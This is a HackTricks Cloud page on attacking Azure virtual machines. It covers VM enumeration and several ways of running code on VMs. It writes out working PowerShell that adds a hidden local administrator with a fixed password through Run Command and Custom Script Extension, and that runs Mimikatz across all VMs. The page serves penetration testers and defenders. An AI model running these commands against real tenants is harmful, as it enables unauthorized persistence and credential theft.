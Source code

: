 # Az - Virtual Machines

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic information

Azure virtual machines are one of several types of [on-demand, scalable computing resources](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) that Azure offers. Typically, you choose a virtual machine when you need more control over the computing environment than the other choices offer. This article gives you information about what you should consider before you create a virtual machine, how you create it, and how you manage it.

## Enumeration

```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```

## **Run commands in a VM**

### **Run Command**

```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd 
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

### **Run Custom Script Extension**

Azure virtual machine (VM) extensions are **small applications** that provide post-deployment configuration and automation **tasks** on **Azure VMs**. For example, if a virtual machine requires software installation, antivirus protection, or the ability to run a script inside it, you can use a VM extension.

Therefore, if you have access to write it, you can execute arbitrary code:

```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```

### DesiredConfigurationState

**DesiredConfigurationState (DSC)** is similar to Ansible, but is a tool within PowerShell that allows a host to be setup through code. DSC has its own extension in Azure which allows the upload of **configuration files**. DSC [configuration files](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document) are quiet picky when it comes to syntax, however the DSC extension is very gullible and will **blindly execute any command** anything as long as it follows a certain format, as shown in figure 5.

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

This can be done via the **Az PowerShell** function [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0). The DSC extension requires a **.PS1** with a **function** and **packaged** in a **.zip** file. Since this actually isn’t correct DSC syntax, the extension status will read as “failure”, however the code will be executed. The issue with this is that there is no output of the command, as the status is overwritten with the failure message.

### VM Application Definitions

The [VM Applications](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications) resource is a way to **deploy versioned applications repeatably** to an Azure VM. For example, if you create a **program** and **deploy** it to all Azure VMs as version 1.0, once you **update** the program **to 1.1**, you can use the same VM Application to **create another definition** and push the update out to any VM.\
Being able to **push out an application** to a VM means it’s another avenue for **code execution**. This method’s drawback is that setting up the Application Definition [**requires a few steps**](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications-how-to?tabs=portal), but can be accomplished using the **`New-AzGalleryApplication`** and **`New-AzGalleryApplicationVersion`** cmdlets in Az PowerShell.

This technique works by utilizing an **extension “VMAppExtension”** which is automatically installed when applying an application to a VM. The extension downloads the file from the URI to disk as the name of the Application _exactly_, meaning if application name is ‘AzApplication’, the file on disk is also called ‘AzApplication’ with no extension. This requires the “ManageActions” field in the [REST API call](https://docs.microsoft.com/en-us/rest/api/compute/gallery-application-versions/create-or-update) to be configured to rename the application with the appropriate extension. If you don’t want to run an entire application, arbitrary PowerShell commands can be run by also abusing the ManageActions field in the same REST API method or also through the Azure Portal. Once set up, the definition will be similar to figure 8.

<figure><img src="../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

This execution technique is unfortunately slow (about 3-4 minutes to execute an app or command), however with it being relatively new I would be surprised if there’s any specific detections written.

Since it’s an extension that ultimately does the execution, a copy of the application is located at `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` and the status of the execution is kept in `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`.

### Hybrid Worker Groups

****[**Hybrid Worker Groups**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) (HWGs) allow a configured **Runbook** in an Automation Account to be **ran** on an **Azure Virtual machine** that is part of the **configured HWG**. Once again, an **extension is used** on the VM to deploy the Runbook code onto the VM. Since an extension is used, credentials are irrelevant and the code is executed as **SYSTEM** or root.

<figure><img src="../../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

If using a Windows 10 VM, it’s important to have the Runbook run as PowerShell Version 5.1 instead of 7.1, as 7.1 isn’t installed on the VMs by default and the script will fail to run.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
